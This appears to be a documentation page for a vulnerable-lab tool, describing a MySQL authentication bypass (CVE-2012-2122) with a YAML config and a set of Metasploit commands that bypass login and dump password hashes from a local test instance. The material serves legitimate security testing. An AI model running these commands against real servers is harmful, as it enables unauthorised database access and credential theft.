 MySQL Authentication Bypass.

### Usage

Example config:

```yaml
applications:
  - type: mysql
    vulnerabilities:
      - CVE-2012-2122

```

### Test with Metasploit

To exploit this vulnerability with Metasploit, use the `scanner/mysql/mysql_authbypass_hashdump` module.

!!! example "Example"

    Open the msfconsole and run these commands (update the variables accordingly):
    ```shell
    use scanner/mysql/mysql_authbypass_hashdump
    set RHOSTS 127.0.0.1
    set RPORT 3307
    set USERNAME wordpress
    run
    ```
